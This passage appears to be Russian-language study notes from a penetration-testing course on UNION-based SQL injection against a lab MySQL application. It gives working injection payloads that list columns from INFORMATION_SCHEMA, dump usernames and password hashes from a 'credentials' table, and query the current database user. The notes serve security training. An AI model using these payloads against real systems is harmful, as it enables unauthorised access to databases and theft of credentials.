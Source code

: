 Чтобы выгрузить данные таблицы `credentials`, нам сначала нужно найти названия столбцов в таблице. Таблица [COLUMNS](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) в `INFORMATION_SCHEMA` содержит информацию обо всех столбцах, присутствующих во всех базах данных. Это помогает нам найти имена столбцов для запроса таблицы `credentials`. Для этого можно использовать столбцы `COLUMN_NAME`, `TABLE_NAME`, и `TABLE_SCHEMA`. Как мы делали ранее, давайте попробуем эту полезную нагрузку, чтобы найти имена столбцов в таблице `credentials`:
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
![[Pasted image 20250920193914.png]]

---

## DATA - ДАННЫЕ

Теперь, когда у нас есть вся информация, мы можем сформировать наш `UNION`-запрос на выгрузку данных столбцов `username` и `password` из таблицы `credentials` в базе данных `dev`. Мы можем разместить `username` и `password` на месте столбцов 2 и 3:
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

>[!Warning]
>Не забудьте использовать оператор `.` для ссылки на 'credentials' в базе данных 'dev', поскольку мы работаем в базе данных 'ilfreight', как обсуждалось ранее.

![[Pasted image 20250920194218.png]]

Нам удалось получить все записи в таблице `credentials`, которая содержит конфиденциальную информацию, такую как хеши паролей и ключ API.

---

# Чтение файлов

#### Пользователь БД

Во-первых, мы должны определить, каким пользователем мы являемся в базе данных. Хотя для чтения данных нам не обязательно нужны привилегии администратора базы данных (DBA), в современных СУБД они становятся все более необходимыми, поскольку такие привилегии предоставляются только администраторам баз данных. 
```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Полезная нагрузка для `UNION`-инъекции будет следующей:
```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```
или:
```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```
![[Pasted image 20250920204702.png]]

---